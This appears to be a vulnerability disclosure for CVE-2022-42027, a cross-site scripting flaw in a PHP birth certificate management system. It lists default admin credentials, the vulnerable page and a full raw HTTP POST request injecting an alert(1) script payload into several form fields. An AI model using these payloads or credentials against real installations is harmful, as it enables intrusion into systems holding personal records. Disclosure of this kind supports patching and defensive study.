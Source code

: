# CVE-2022-42027 Online Birth Certificate Management System - XSS

A vulnerability classified as problematic was found in Online Birth Certificate Management System . This vulnerability affects unknown code. The manipulation of the argument fill-birthregform.php  leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin123 ----> {ip}/user/fill-birthregform.php

Supplier： https://www.sourcecodester.com/php/15683/online-birth-certificate-management-system-php-free-download.html

/user/fill-birthregform.php  has XSS

> Payload: <sCrIpT>alert(1)</sCrIpT>

XSS because `$ApplicationID` can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/8.png)

## Payload

```sql
POST http://127.0.0.1/CVE/OBCMS/user/fill-birthregform.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 362
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/CVE/OBCMS/user/fill-birthregform.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4okk1vi8496nglrc7ut709vl37
Connection: close

dob=2022-09-10&gender=Female&fname=1%09+%3CsCrIpT%3Ealert%281%29%3C%2FsCrIpT%3E&pob=1%09+%3CsCrIpT%3Ealert%281%29%3C%2FsCrIpT%3E&nameoffather=1%09+%3CsCrIpT%3Ealert%281%29%3C%2FsCrIpT%3E&padd=1%09+%3CsCrIpT%3Ealert%281%29%3C%2FsCrIpT%3E&postaladd=1%09+%3CsCrIpT%3Ealert%281%29%3C%2FsCrIpT%3E&mobnumber=1&email=1%09+%3CsCrIpT%3Ealert%281%29%3C%2FsCrIpT%3E&submit=
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/3.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/1.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/2.png)